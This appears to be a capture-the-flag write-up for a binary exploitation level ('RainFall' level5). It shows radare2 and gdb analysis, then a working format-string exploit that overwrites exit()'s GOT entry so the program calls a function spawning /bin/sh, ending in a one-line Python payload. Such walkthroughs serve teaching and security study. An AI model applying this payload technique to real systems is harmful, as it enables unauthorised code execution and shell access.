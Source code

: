 As always we start this level with `radare2` and `gdb` to gather informations:
```bash
[0x080483f0]> afl
0x08048380    1      6 sym.imp.printf
0x08048390    1      6 sym.imp._exit
0x080483a0    1      6 sym.imp.fgets
0x080483b0    1      6 sym.imp.system
0x080483d0    1      6 sym.imp.exit
0x080483e0    1      6 sym.imp.__libc_start_main
0x080483f0    1     33 sub.entry0_80483f0
0x08048420    6     85 sym.__do_global_dtors_aux
0x08048480    4     35 sym.frame_dummy
0x080485a0    4     42 sym.__do_global_ctors_aux
0x08048590    1      2 sym.__libc_csu_fini
0x08048592    1      4 sym.__i686.get_pc_thunk.bx
0x080484c2    1     66 sym.n
0x080485cc    1     26 sub._fini_80485cc
0x08048520    4     97 sym.__libc_csu_init
0x080484a4    1     30 sym.o
0x08048504    1     11 sub.main_8048504
0x08048334    3     46 sub._init_8048334
0x080483c0    1      6 sub.loc.imp.__gmon_start___80483c0
[0x080483f0]> pdf @ sym.o
┌ 30: sym.o (); // noreturn
│           0x080484a4      55             push ebp
│           0x080484a5      89e5           mov ebp, esp
│           0x080484a7      83ec18         sub esp, 0x18
│           0x080484aa      c70424f085..   mov dword [esp], str._bin_sh ; [0x80485f0:4]=0x6e69622f ; "/bin/sh" ; const char *string
│           0x080484b1      e8fafeffff     call sym.imp.system         ; int system(const char *string)
│           0x080484b6      c704240100..   mov dword [esp], 1          ; int status
└           0x080484bd      e8cefeffff     call sym.imp._exit          ; void _exit(int status)
[0x080483f0]>
[0x080483f0]> pdf @ sym.n
            ; CALL XREF from sub.main_8048504 @ 0x804850a(x)
┌ 66: sym.n (); // noreturn
│ afv: vars(3:sp[0x20c..0x218])
│           0x080484c2      55             push ebp
│           0x080484c3      89e5           mov ebp, esp
│           0x080484c5      81ec18020000   sub esp, 0x218
│           0x080484cb      a148980408     mov eax, dword [obj.stdin]  ; loc.__bss_start
│                                                                      ; [0x8049848:4]=0
│           0x080484d0      89442408       mov dword [stream], eax     ; FILE *stream
│           0x080484d4      c744240400..   mov dword [size], 0x200     ; [0x200:4]=-1 ; 512 ; int size
│           0x080484dc      8d85f8fdffff   lea eax, [format]
│           0x080484e2      890424         mov dword [esp], eax        ; char *s
│           0x080484e5      e8b6feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x080484ea      8d85f8fdffff   lea eax, [format]
│           0x080484f0      890424         mov dword [esp], eax        ; const char *format
│           0x080484f3      e888feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x080484f8      c704240100..   mov dword [esp], 1          ; int status
└           0x080484ff      e8ccfeffff     call sym.imp.exit           ; void exit(int status)
[0x080483f0]>
```

The function `o()` has a call to `/bin/sh` but isn't called by the program, so we're going to try and call it ourselves !
Since we want to execute a function, we are going to try and **replace `exit()`'s call with a call to `o()`**.
Using `gdb` we find `exit()`'s GOT address:
```bash
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

Let's see where our printf writes:
```bash
level5@RainFall:~$ ./level5
AAAA %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
```

Now that we know this, we're going to convert `o()`'s address in dec, `0x080484a4 = 134513828 - 4 = 134513824` (4 chars removed for the address).
And we craft a script to finally exploit it:
```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824c%4$n"' && cat) | ./level5
```
And we get the flag.




